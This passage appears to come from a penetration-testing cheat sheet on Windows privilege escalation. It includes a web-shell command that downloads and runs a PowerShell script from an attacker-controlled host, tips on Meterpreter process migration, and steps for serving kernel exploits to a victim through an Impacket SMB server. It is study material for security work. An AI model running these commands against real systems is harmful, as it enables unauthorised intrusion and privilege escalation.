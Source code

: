 The above can be executed by

```none
view-source:10.54.98.X/shell.php?cmd=echo IEX (New-Object Net.WebClient).DownloadString("http://YourIP:8000/Sherlock.ps1"); | powershell -noprofile -
```

We execute powershell with noprofile and accept the input from stdin

### Windows Exploit Suggestor

[Windows Exploit Suggestor](https://github.com/GDSSecurity/Windows-Exploit-Suggester) : This tool compares a targets patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It also notifies the user if there are public exploits and Metasploit modules available for the missing bulletins. Just copy the systeminfo information from the windows OS and compare the database.

If we are getting the below error on running local exploits of getuid in meterpreter

```none
[-] Exploit failed: Rex::Post::Meterpreter::RequestError stdapi_sys_config_getuid: Operation failed: Access is denied.
```

Possibly, migrate into a new process using post/windows/manage/migrate

### Windows Kernel Exploits

[Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits) contains most of the compiled windows exploits. One way of running these is either upload these on victim system and execute. Otherwise, create a smb-server using Impacket

```none
usage: smbserver.py [-h] [-comment COMMENT] [-debug] [-smb2support] shareName sharePath

This script will launch a SMB Server and add a share specified as an argument. You need to be root in order to bind to port 445. No authentication will be enforced. Example: smbserver.py -comment 'My share' TMP /tmp

positional arguments:
    shareName         name of the share to add
    sharePath         path of the share to add
```

Assuming, the current directory contains our compiled exploit, we can

```none
impacket-smbserver <sharename> `pwd`
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
